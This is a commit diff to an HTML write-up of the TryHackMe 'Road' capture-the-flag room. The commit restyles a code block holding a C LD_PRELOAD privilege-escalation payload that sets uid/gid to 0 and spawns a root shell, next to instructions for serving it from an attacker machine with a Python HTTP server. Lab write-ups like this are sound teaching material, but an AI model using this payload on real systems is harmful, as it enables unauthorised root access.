

Before and after one commit to muhammedkayag/TryHackMe-Road-WriteUp, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 7781-8642 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -140,6 +140,18 @@
         <div class="photo-container">
             <img src="pics/r11.png" alt="Image 11">
             <p>we see there is LD_PRELOAD vulnerability.To be root with this vulnerability first we code a c exploit. Source code of exploit is:</p>
+            <div style="position: relative; background-color: #d3d3d3; padding: 10px; border-radius: 5px; overflow-x: auto;"><button style='position: absolute; top: 10px; right: 10px; padding: 5px 10px; background-color: #007bff; color: white; border: none; border-radius: 3px; cursor: pointer;' onclick="navigator.clipboard.writeText(this.nextElementSibling.innerText).then(() => { this.innerText='Copied'; setTimeout(() => { this.innerText='Copy Code'; }, 2000); });">Copy Code</button><pre><code>
+    #include &lt;stdio.h&gt;
+    #include &lt;sys/types.h&gt;
+    #include &lt;stdlib.h&gt;
+    void _init() {
+    unsetenv("LD_PRELOAD");
+    setgid(0);
+    setuid(0);
+    system("/bin/sh");
+    }
+            </code></pre></div>
+            <!--
             <div class="code-block"><button onclick="navigator.clipboard.writeText(this.nextElementSibling.innerText).then(() => { this.innerText='Copied'; setTimeout(() => { this.innerText='Copy Code'; }, 2000); });">Copy Code</button><pre><code style="width: 100%;">
                 #include &lt;stdio.h&gt;
                 #include &lt;sys/types.h&gt;
@@ -152,6 +164,7 @@
                 }
 
             </code></pre></div>
+            -->
             <p>then we use this commands to be root:</p>
             <p>in attacker machine we deploy a simple http server to send exploit to the target:</p>
             <div class="code-block"><button onclick="navigator.clipboard.writeText(this.nextElementSibling.innerText).then(() => { this.innerText='Copied'; setTimeout(() => { this.innerText='Copy Code'; }, 2000); });">Copy Code</button><pre><code style="width: 100%;">python3 -m http.server 7000</code></pre></div>
```
